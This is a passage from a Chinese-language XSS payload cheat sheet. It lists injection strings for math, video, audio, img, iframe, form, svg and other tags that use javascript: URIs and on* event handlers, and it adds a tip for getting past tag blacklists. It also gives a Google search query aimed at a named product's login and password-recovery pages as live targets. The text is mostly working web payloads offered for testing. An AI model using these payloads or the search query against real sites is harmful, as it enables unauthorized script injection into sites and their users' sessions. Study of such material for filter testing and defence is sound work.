 * math标签
```plain
<math href="javascript:javascript:alert(1)">CLICKME</math> 
<math><y/xlink:href=javascript:alert(51)>test1 
<math> <maction actiontype="statusline#http://wangnima.com" 
xlink:href="javascript:alert(49)">CLICKME</maction> </math>
```
* video标签
```plain
<video><source onerror="alert(1)"> 
<video src=x onerror=alert(48)>
```
* audio标签
```plain
<audio src=x onerror=alert(47)>
```
姿势的介绍就在这里结束了。

说句题外话 在这些标签里面凡是出现在on*事件值里面的javascript:都是多余的。但是这个对测试者来说是很方便的。因为你可以通过一个payload来测试好几个黑名单成员

## 示例

```plain
什么都不过滤
<HTML 标签 onXXXX="...[输出在这里].."> 
<a href="javascript:[输出在这里]">xxxx </a>
<script>[输出在这里]</script>
```
>例如Dkey的用户登录界面和密码找回界面．Google搜索即可测试`inurl:"webAuth" DKey`
>onclick, onerror, onload
```plain
<img src="#" onclick="javascript:alert('img:onclick')" onerror="javascript:alert('img:onerror')" onload="javascript:alert('img:onload')">
<!–src加伪协议js代码不能触发–>
<video src="#" onclick="javascript:alert('video:onclick')" onerror="javascript:alert('video:onerror')" onload="javascript:alert('video:onload')"></video>
<audio src="#" onclick="javascript:alert('audio:onclick')" onerror="javascript:alert('audio:onerror')" onload="javascript:alert('audio:onload')"></audio>
<iframe src="javascript:alert('iframe')" width= "0" height= "0"/>
<form action= "Javascript:alert('from_action0')">
<input type= "submit" formaction=" JaVaScript:alert('from_action2')">
<input type= "image" formaction=" JaVaScript:alert('from_action1')">
<input type ="text" onchange ="JaVaScript:alert('from_action3')"> 

<a onmouseover= "javascript:alert('a_onmouseover')">12</ a>
<svg onload=" javascript:alert('svg')"></svg >
<body onload= "javascript:alert('body')"></body>
<select autofocus onfocus="javascript:alert('select' )"></select>
<textarea autofocus onfocus="javascript:alert('textarea' )"></textarea>
<keygen autofocus onfocus="javascript:alert('keygen' )"></keygen>
<audio><source onerror="javascript:alert('source')"></ audio>
```
## XSS自动生成
